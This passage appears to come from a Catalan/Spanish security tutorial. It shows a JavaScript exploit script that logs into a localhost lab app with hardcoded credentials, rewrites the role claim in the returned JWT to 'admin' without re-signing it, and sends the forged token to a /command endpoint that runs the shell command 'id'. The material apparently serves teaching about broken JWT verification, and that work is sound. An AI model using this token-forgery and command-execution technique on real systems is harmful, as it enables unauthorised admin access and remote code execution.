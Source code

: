 Això ho podem fer manualment o amb l’script següent, que ho automatitza. Tornem a modificar el nostre fitxer `script.js`.

```javascript
var command = "id";

// Petición para realizar el login y obtener el token actualizado.
petition1 = new XMLHttpRequest();
petition1.open('POST', 'http://localhost:3000/login', true);
petition1.setRequestHeader('Content-Type', 'application/json');

// Petición para ejecutar el comando.
petition2 = new XMLHttpRequest();
petition2.open('POST', 'http://localhost:3000/command', true);
petition2.setRequestHeader('Content-Type', 'application/json');

function base64urlDecode(str) {
    // Reemplaza caracteres específicos de Base64URL
    str = str.replace(/-/g, '+').replace(/_/g, '/');
    // Añadir padding si es necesario
    while (str.length % 4) {
        str += '=';
    }
    return atob(str);
}

function base64urlEncode(str) {
    return btoa(str)
        .replace(/\+/g, '-')
        .replace(/\//g, '_')
        .replace(/=+$/, '');
}

petition2.onload = () => {
    document.write("Resultado");
    document.write(petition2.responseText);
}

petition1.onload = () => {
    // Obtenemos el token JWT y lo separamos en sus partes.
    let tokenParts = JSON.parse(petition1.responseText).token.split(".");

    // Decodificamos la parte del payload y la convertimos en objeto.
    let payloadDecoded = JSON.parse(base64urlDecode(tokenParts[1]));

    // Modificamos el role del usuario.
    payloadDecoded.role = "admin";

    // Codificamos nuevamente el payload modificado.
    tokenParts[1] = base64urlEncode(JSON.stringify(payloadDecoded));

    // Reconstruimos el token modificado.
    let tokenModificado = tokenParts.join(".");

    sendSecondPetition(tokenModificado);
}

function sendSecondPetition(tokenModificado) {
    petition2.send(`{"token":"${tokenModificado}","command":"${command}"}`);
}

petition1.send('{"username":"Jose","password":"FuLqqEAErWQsmTQQQhsb"}');
```

